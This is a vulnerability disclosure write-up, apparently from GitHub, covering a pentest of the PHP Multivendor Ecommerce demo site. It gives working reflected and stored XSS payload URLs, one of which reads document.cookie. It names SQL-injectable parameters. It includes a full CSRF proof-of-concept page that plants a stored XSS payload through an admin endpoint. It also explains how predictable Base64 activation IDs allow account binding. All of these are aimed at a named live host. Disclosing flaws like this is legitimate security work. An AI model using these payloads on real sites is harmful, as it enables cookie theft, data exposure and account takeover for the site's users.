 ### PHP Multivendor Ecommerce- the lastest version - SQL Injection/Reflect-XSS/Stored-XSS/CSRF/Arbitrary-Binding

Well,  when I pentest the official demo site of PHP Multivendor Ecommerce, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

###### XSS1

```
http://www.fxwebsolution.com/demo/arthi/multivendor/category.php?chid1=40%27%22123%3Cimg%20src=x%20onerror=console.log(/xss/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss1.png)

###### XSS2

```
http://www.fxwebsolution.com/demo/arthi/multivendor/seller-view.php?usid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss2/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss2.png)

###### XSS3

```
http://www.fxwebsolution.com/demo/arthi/multivendor/shopping-cart.php?cusid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss3/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss3.png)


###### XSS4

````
http://www.fxwebsolution.com/demo/arthi/multivendor/my_wishlist.php?fid=60%27%22123%3Cimg%20src=x%20onerror=console.log(/xss4/)%3E123%3C%27%22
````

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/xss4.png)


##### Stored-XSS 


```
http://www.fxwebsolution.com/demo/arthi/multivendor/admin/sellerupd.php?upd=2&uid=36&id=61
```

POST parameters:

```
------WebKitFormBoundary2wspk6wZ1zP1BEHR
Content-Disposition: form-data; name="companyname"

abc pvt ltd'"><svg/onload=alert(document.cookie)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sxss.png)



#### SQL Injection:

##### sqli1
```
http://www.fxwebsolution.com//demo/arthi/multivendor/seller-view.php?usid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sqli1.png)

##### sqli2

```
http://www.fxwebsolution.com/demo/arthi/multivendor/shopping-cart.php?cusid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sqli2.png)


##### sqli3

```
http://www.fxwebsolution.com/demo/arthi/multivendor/my_wishlist.php?fid=60
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/sqli3.png)


You can see,  we can obtain the current data user or more sensitive data now!


#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even add stored-xss content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <script>
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http:\/\/www.fxwebsolution.com\/demo\/arthi\/multivendor\/admin\/sellerupd.php?upd=2&uid=36&id=61", true);
        xhr.setRequestHeader("Content-Type", "multipart\/form-data; boundary=----WebKitFormBoundary2wspk6wZ1zP1BEHR");
        xhr.setRequestHeader("Accept", "text\/html,application\/xhtml+xml,application\/xml;q=0.9,image\/webp,image\/apng,*\/*;q=0.8");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.9");
        xhr.withCredentials = true;
        var body = "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"idvalue\"\r\n" + 
          "\r\n" + 
          "61\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"upd\"\r\n" + 
          "\r\n" + 
          "2\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"user_mail\"\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"companyname\"\r\n" + 
          "\r\n" + 
          "abc pvt ltd\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"companyname\"\r\n" + 
          "\r\n" + 
          "abc pvt ltd\'\"\x3e\x3csvg/onload=alert(document.cookie)\x3e\x3c\'\"\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"about\"\r\n" + 
          "\r\n" + 
          "ihguifhugjhufdhgjhd\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"store\"\r\n" + 
          "\r\n" + 
          "avc\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"cphone\"\r\n" + 
          "\r\n" + 
          "2147483647\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"policy\"\r\n" + 
          "\r\n" + 
          "gfgfvhhjj\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"address1\"\r\n" + 
          "\r\n" + 
          "chennai\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"address2\"\r\n" + 
          "\r\n" + 
          "chennai\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"proof\"; filename=\"\"\r\n" + 
          "Content-Type: application/octet-stream\r\n" + 
          "\r\n" + 
          "\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR\r\n" + 
          "Content-Disposition: form-data; name=\"_submit\"\r\n" + 
          "\r\n" + 
          "Save\r\n" + 
          "------WebKitFormBoundary2wspk6wZ1zP1BEHR--\r\n";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i); 
        xhr.send(new Blob([aBody]));
      }
    </script>
    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
  </body>
</html>

```

This vulnerability does not need evil attacker to login into the user panel.

#### Arbitrary-Binding

I found when we're register the account, we should verify the email to activate the account.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding1.png)

But the url which send to the email is predictable. For example, the url the system send to my email is:
```
http://www.fxwebsolution.com/demo/arthi/multivendor/sign-in.php?eqid=NTA=
```
After Base64 decode:
```
http://www.fxwebsolution.com/demo/arthi/multivendor/sign-in.php?eqid=50
```
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding2.png)

So it's easy to predict or enum the eid to activate our account, then we can bind the account to any email-account, even if it's not exist.

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/PHP-Multivendor-Ecommerce/arbitrary-binding3.png)

In a word, it's a arbitrary-Binding bug here.